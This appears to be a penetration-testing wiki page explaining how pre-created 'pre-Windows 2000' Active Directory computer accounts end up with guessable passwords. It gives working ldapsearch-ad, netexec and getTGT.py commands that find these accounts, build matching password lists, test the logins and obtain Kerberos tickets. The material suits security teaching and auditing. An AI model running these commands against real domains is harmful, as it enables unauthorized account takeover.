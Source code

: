 # Pre-Windows 2000 computers

## Theory

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

## Practice

Finding computer accounts that have been "pre-created" (i.e. manually created in [ADUC](https://blog.netwrix.com/2017/01/30/active-directory-users-and-computers-aduc/) instead of automatically added when joining a machine to the domain), but have never been used can be done by filtering the `UserAccountControl` attribute of all computer accounts and look for the value 4128 (32|4096) (deductible via the [UserAccountControl](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) flags):

* 32 - `PASSWD_NOTREQD`
* 4096 - `WORKSTATION_TRUST_ACCOUNT`

The `logonCount` attribute can be filtered as well.

The [ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad) tool can be used to find such accounts. Once "pre-created" computer accounts that have not authenticated are found, they should be usable with their lowercase name set as their password. This can be tested with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python) for instance.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># 1. find pre-created accounts that never logged on
</strong><strong>ldapsearch-ad -l $LDAP_SERVER -d $DOMAIN -u $USERNAME -p $PASSWORD -t search -s '(&#x26;(userAccountControl=4128)(logonCount=0))' | tee results.txt
</strong>
# 2. extract the sAMAccountNames of the results
cat results.txt | grep "sAMAccountName" | awk '{print $4}' | tee computers.txt

# 3. create a wordlist of passwords matching the Pre-Windows 2000 generation, based on the account names
cat results.txt | grep "sAMAccountName" | awk '{print tolower($4)}' | tr -d '$' | tee passwords.txt

# 4. bruteforce, line per line (user1:password1, user2:password2, ...)
netexec smb $DC_IP -u "computers.txt" -p "passwords.txt" --no-bruteforce</code></pre>

> You will see the error message **STATUS\_NOLOGON\_WORKSTATION\_TRUST\_ACCOUNT** when you have guessed the correct password for a computer account that has not been used yet. ([trustedsec.com](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/))

Testers can then change the Pre-Windows 2000 computer accounts' password (i.e. [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304), [kpasswd.py](https://github.com/SecureAuthCorp/impacket/pull/1189), etc.) in order to use it.

{% hint style="success" %}
Alternatively, Filip Dragovic was able to authenticate using Kerberos without having to change the account's password. ([source](https://twitter.com/filip\_dragovic/status/1524730451826511872))

```bash
getTGT.py $DOMAIN/$COMPUTER_NAME\$:$COMPUTER_PASSWORD
```

The ticket obtained can then be used with [ptt.md](../kerberos/ptt.md "mention")
{% endhint %}

## Reference

{% embed url="https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/" %}

{% embed url="https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187" %}
